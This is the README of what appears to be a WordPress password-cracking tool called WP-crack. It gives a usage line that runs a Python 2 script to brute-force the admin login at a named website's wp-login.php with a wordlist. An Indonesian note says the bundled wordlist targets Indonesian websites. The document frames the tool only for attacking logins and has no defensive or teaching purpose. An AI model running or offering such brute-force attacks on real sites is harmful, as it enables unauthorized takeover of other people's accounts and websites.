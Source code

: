# WP-crack

# Usage :

cd WP-crack

python2 wpbf.py -h http://neokopoi.com/wp-login.php -u admin -P wordlist.txt

# NB :

dilengkapi dengan wordlist khusus web indonesia bilang ingin di tambah atau di kembangkan silahkan

